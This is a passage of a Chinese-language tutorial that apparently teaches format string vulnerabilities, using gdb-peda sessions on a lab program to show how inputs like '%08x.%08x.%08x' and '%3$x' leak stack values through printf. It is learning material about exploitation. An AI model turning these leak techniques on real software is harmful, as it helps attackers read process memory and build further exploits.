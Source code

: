 栈中一地个为返回地址，第二个为格式化字符串的地址，后续为a，b，c，第6个是我们输入的格式化字符串的地址，继续运行：

```
gdb-peda$ c
Continuing.
00000001.00222222.ffffffff.%08x.%08x.%08x
```

由于我们输入的字符串%08x.%08x.%08x，程序会将栈上之后的数值分别为第一，第二第三个参数按照int型进行解析，并输出，继续运行：

```
gdb-peda$ c
Continuing.
ffffd160.f7ffd990.080491d1[Inferior 1 (process 5931) exited normally]
```

同样，%p也可。

这里需要注意的是，并不是每次得到的结果都一样 ，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的。

**直接获取栈中被视为n+1个参数的值：**

> %n$x

gdb调一下：

```c
gdb-peda$ c
Continuing.
00000001.00222222.ffffffff.%3$x
[----------------------------------registers-----------------------------------]
EAX: 0xffffd160 ("%3$x")
EBX: 0x804c000 --> 0x804bf14 --> 0x1 
ECX: 0x0 
EDX: 0x804a01d --> 0x1000000 
ESI: 0xf7fb3000 --> 0x1e6d6c 
EDI: 0xf7fb3000 --> 0x1e6d6c 
EBP: 0xffffd1d8 --> 0x0 
ESP: 0xffffd14c --> 0x804922d (<main+119>:	add    esp,0x10)
EIP: 0xf7e1fde0 (<printf>:	endbr32)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e1fddb <fprintf+27>:	add    esp,0x1c
   0xf7e1fdde <fprintf+30>:	ret    
   0xf7e1fddf:	nop
=> 0xf7e1fde0 <printf>:	endbr32 
   0xf7e1fde4 <printf+4>:	call   0xf7f1127d
   0xf7e1fde9 <printf+9>:	add    eax,0x193217
   0xf7e1fdee <printf+14>:	sub    esp,0xc
   0xf7e1fdf1 <printf+17>:	lea    edx,[esp+0x14]
[------------------------------------stack-------------------------------------]
0000| 0xffffd14c --> 0x804922d (<main+119>:	add    esp,0x10)
0004| 0xffffd150 --> 0xffffd160 ("%3$x")
0008| 0xffffd154 --> 0xffffd160 ("%3$x")
0012| 0xffffd158 --> 0xf7ffd990 --> 0x0 
0016| 0xffffd15c --> 0x80491d1 (<main+27>:	add    ebx,0x2e2f)
0020| 0xffffd160 ("%3$x")
0024| 0xffffd164 --> 0x0 
0028| 0xffffd168 --> 0xffffd1c8 --> 0x222222 ('"""')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e1fde0 in printf () from /lib32/libc.so.6
gdb-peda$ c
Continuing.
80491d1[Inferior 1 (process 6012) exited normally]
```
